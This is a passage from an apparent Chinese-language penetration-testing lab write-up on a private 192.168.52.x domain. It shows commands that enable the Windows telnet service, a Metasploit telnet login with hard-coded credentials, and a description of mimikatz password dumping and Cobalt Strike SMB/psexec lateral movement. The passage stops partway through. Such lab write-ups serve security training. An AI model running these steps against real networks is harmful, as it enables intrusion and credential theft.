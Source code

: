 [![](assets/1701827767-eb33cb7119def0e32500d93c563b251b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202192348-435d3a44-9105-1.png)

### telnet远程连接服务(141机器)：

Telnet（"Telecommunication Network" 的缩写）是一种用于在计算机之间进行远程终端连接的协议。Telnet服务允许用户通过网络远程登录到远程主机，并在远程主机上执行命令，就像直接在本地计算机上执行一样。Telnet是一个简单的文本协议，主要用于远程管理和调试。

开启23端口并打开telnet服务：

```plain
set COMMAND sc config tlntsvr start= auto
set COMMAND net start telnet
```

接下来telnet连接

```plain
use auxiliary/scanner/telnet/telnet_login
set RHOSTS 192.168.52.141
set username hack
set PASSWORD qaz@123
exploit
```

自行连接：

```plain
telnet 192.168.52.141
```

[![](assets/1701827767-bc8159be78b492db12001b2d7ef2e3aa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202193055-41aa9b50-9106-1.png)

## CS横向渗透(138机器)：

net view首先查看域内信息：

[![](assets/1701827767-c97864747f506142b422ec36ac572689.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202193112-4be78434-9106-1.png)

当我们拿到一个机器的beacon以后，通过mimikatz抓取明文密码，得到其他机器和本机机器的某些用户的明文密码,这里我们通过143机器administrator的密码以后，因为143机器开启了445端口，所以我们就可以通过这个机器的445端口和目标不出网的138机器的445端口进行smb通讯

这里我们使用smb的监听器：

[![](assets/1701827767-fea33339f6b3556a4b77a7f4e96ab822.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202193138-5b7c67de-9106-1.png)

然后通过psexec进行内网横向渗透，通过143机器对138机器进行通讯：
